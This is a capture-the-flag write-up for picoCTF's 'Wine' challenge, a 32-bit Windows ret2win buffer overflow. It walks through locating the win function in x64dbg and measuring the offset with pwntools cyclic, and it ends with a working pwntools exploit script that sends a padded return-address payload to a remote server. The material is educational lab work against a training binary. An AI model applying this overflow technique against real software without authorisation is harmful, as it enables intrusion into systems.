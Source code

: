 # Wine - Pwn - 300 points

Wine was a windows ret2win buffer overflow challenge, with the source code available to us. 

From looking at the source code, we know the buffer size and we can see that the function that we are interested in has some strings which are printed if certain conditions are met (no flag.txt in current directory):

	void win(){
	  char buf[FLAGSIZE];
	  FILE *f = fopen("flag.txt","r");
	  if (f == NULL) {
	    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if running on picoCTF servers.\n");
	    exit(0);
	  }
	  fgets(buf,FLAGSIZE,f); // size bound read
	  puts(buf);
	  fflush(stdout);
	}


So our goal is to find the address of this function and redirect the flow of the program to it.

In cases of ELF binaries finding addresses that we need is usually fairly straightforward - throw the binary in GDB, disassemble, calculate the offsets and so on - however with exe's we don't have the same luxury. There are a number of debuggers available for windows, but personally I find that none of them are quite as intuative and easy to use as GDB.

For the purposes of debugging this exe binary, I used [x64dbg](https://x64dbg.com/) inside a Windows VM, and used it to find the address of the win function. 

An interesting point to note here is the the vuln function was clearly defined in the symbols, meaning we could easily search for it specifically, but the win function's symbols weren't there - meaning we had to manually look for those previously mentioned strings. They weren't hard to find - we could use x64dbg's search feature to search for specific strings - and we can see the function address (00401530) just above the "flag.txt" string below:

![win](screenshots/flag_func.png?raw=true)

A quick check of the architecture using Ghidra tells us that this is a 32 bit exe binary, which means that we need to pass the address into this binary in little-endian format.

To find the offset, we need to generate a cyclic pattern, pass it into the program once it prompts us for input, and find the offset value in ESP (stack pointer) at the point of crash.

To do this I used pwntools' cyclic command line tool to generate a 200 character pattern and passed it into the program. Inpecting the registers in x64dbg shows us the values from our pattern  that made it into the ESP:

![esp](screenshots/offset.png?raw=true)

Using the cyclic tool again, we pass in the characters that made it into the ESP to find the exact number of character that made it into the buffer (cyclic -l laab) - 144. 

So our final payload is 144 bytes - 4 bytes for the address we want to redirect to and 140 junk characters. Finally, we can put together a quick pwntools scripts and get the flag:

	from pwn import *

	# Pass in remote server details
	def start(argv=[], *a, **kw):
	    return remote(sys.argv[1], sys.argv[2], *a, **kw)

	# context.log_level = 'debug'

	# Start program
	io = start()

	io.recvline() # Give me a string!

	offset = 140
	address = b"\x30\x15\x40\x00"

	# Build payload (ret2win)
	payload = flat([
	    offset * b'A',  
	    address
	])

	# Send the payload
	io.sendline(payload)

	# Get our flag
	flag = io.recvline()

	p = log.progress('Flag: ')
	p.success(flag.decode('utf-8'))

